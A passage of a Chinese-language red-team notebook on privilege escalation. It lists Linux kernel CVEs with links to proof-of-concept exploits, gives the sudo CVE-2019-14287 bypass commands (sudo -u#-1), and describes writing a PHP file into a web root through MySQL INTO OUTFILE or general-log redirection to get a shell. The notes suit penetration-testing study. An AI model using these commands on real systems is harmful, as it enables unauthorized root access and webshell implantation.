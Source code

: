 **CVE-2017-1000253**
- POC | Payload | exp
- https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.c

**CVE-2017–1000405 Huge Dirty COW**
- 文章
- ["Huge Dirty COW" (CVE-2017–1000405)](https://medium.com/bindecy/huge-dirty-cow-cve-2017-1000405-110eca132de0)

- POC | Payload | exp
- [bindecy/HugeDirtyCowPOC](https://github.com/bindecy/HugeDirtyCowPOC)

**CVE-2019-14287**
- 简介

    当 sudo 配置为允许用户以任意方式运行命令时用户通过 Runas 规范中的 ALL 关键字，可以通过指定用户 ID -1 或 4294967295 以 root 用户身份运行命令。

- 文章
- [How to detect CVE-2019-14287 using Falco](https://sysdig.com/blog/detecting-cve-2019-14287/)
- [CVE-2019-14287 linux sudo root 权限绕过漏洞复现](https://mp.weixin.qq.com/s/bb6Hd3JdYiLilqdP_-INtA)

- POC | Payload | exp
    ```bash
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!root\s*)"
    cat /etc/sudoers | grep "(\s*ALL\s*,\s*\!#0\s*)"

    sudo -u#-1 id -u
    或者:
    sudo -u#4294967295 id -u
    ```

---

# mysql

**文章**
- [Windows下三种mysql提权剖析](https://xz.aliyun.com/t/2719)

**通过 phpmyadmin 来 getshell**
- 确认绝对路径

    利用 log 变量,猜绝对路径

    ![image](../../../../assets/img/安全/笔记/RedTeam/业务软件渗透笔记/1.png)

    或者直接查询 `select @@basedir;`

    直接 SQL 写文件
    `select '<?php phpinfo(); ?>' INTO OUTFILE 'C:/phpStudy/PHPTutorial/WWW/a.php';`
    如果 file_priv 为 null,那么是写不了的,可以尝试使用日志写马
    ```sql
    set global general_log='on';
    set global general_log_file='C:/phpStudy/PHPTutorial/WWW/a.php';
    select '<?php phpinfo(); ?>';
    set global general_log=off;
    ```
